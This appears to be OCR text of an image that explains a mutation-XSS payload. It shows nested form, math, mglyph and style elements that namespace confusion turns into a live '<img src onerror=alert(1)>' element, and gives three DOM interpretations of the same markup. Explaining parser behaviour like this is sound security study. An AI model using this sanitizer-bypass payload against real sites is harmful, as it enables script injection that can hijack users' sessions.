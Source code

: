 Below are several interpretations of this DOM.

1. **Browser DOM interpretation after rendering:**

```
<form> [HTML]
  <math> [MathML]
    <mtext> [MathML]
      <form> [HTML]
        <mglyph> [HTML]
          <style> [HTML]
            </math>
<img src onerror=alert(1)>
          </style> [HTML]
        </mglyph> [HTML]
      </form> [HTML]
    </mtext> [MathML]
  </math> [MathML]
</form> [HTML]
```

2. **Debug DOM output:**

```html
<form>
  <math>
    <mtext>
      <form>
        <mglyph>
          <style>
            </math><img src onerror=alert(1)>
          </style>
        </mglyph>
      </form>
    </mtext>
  </math>
</form>
```

3. **Namespace interpretation:**

```
<form> [HTML]
  <math> [MathML]
    <mtext> [MathML]
      <mglyph> [MathML]
        <style> [MathML]
        </style> [MathML]
      </mglyph> [MathML]
    </mtext> [MathML]
  </math> [MathML]
  <img src="" onerror="alert(1)"> [HTML]
</form> [HTML]
```
